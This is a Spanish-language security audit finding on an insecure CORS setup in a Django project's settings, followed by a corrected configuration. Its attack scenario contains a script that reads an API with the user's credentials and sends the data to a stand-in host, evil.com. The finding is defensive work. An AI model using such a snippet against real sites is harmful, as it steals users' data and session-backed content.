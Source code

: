 
## 5️⃣ A05: SECURITY MISCONFIGURATION (Configuración Insegura)

### 🔴 **CRÍTICO: CORS abierto en desarrollo**

```python
# ❌ config/settings.py (líneas 193-195)
if DEBUG:
    CORS_ALLOW_ALL_ORIGINS = True      # ← CUALQUIER origen puede hacer requests
    CORS_ALLOW_CREDENTIALS = True      # ← Permite envío de cookies/tokens
```

**Riesgos**:
- 🔴 **En desarrollo**: Sitios maliciosos pueden hacer requests a tu API local
- 🔴 **Si DEBUG=True en producción**: API abierta a ataques CORS
- 🔴 **Con credenciales**: Tokens/cookies pueden ser robados

**Escenario de Ataque**:
```html
<!-- Sitio malicioso: evil.com -->
<script>
// Si usuario tiene localhost:8000 corriendo con DEBUG=True:
fetch('http://localhost:8000/api/v1/containers/', {
    method: 'GET',
    credentials: 'include'  // ← Envía cookies/JWT
})
.then(r => r.json())
.then(data => {
    // ← Roba todos los contenedores
    fetch('https://evil.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
    });
});
</script>
```

**Solución**:
```python
# ✅ CORREGIR: config/settings.py

# CORS settings - NUNCA usar ALLOW_ALL
CORS_ALLOWED_ORIGINS = [
    "http://localhost:3000",      # Frontend React/Vue local
    "http://localhost:8080",      # Frontend alternativo
    "https://soptraloc-app.vercel.app",  # Frontend en producción
]

# ❌ NUNCA EN PRODUCCIÓN:
# CORS_ALLOW_ALL_ORIGINS = True

# Si necesitas múltiples orígenes en desarrollo:
if DEBUG:
    CORS_ALLOWED_ORIGINS.extend([
        "http://127.0.0.1:3000",
        "http://192.168.1.100:3000",  # IP local
    ])

CORS_ALLOW_CREDENTIALS = True  # ← OK, pero con orígenes específicos
```

---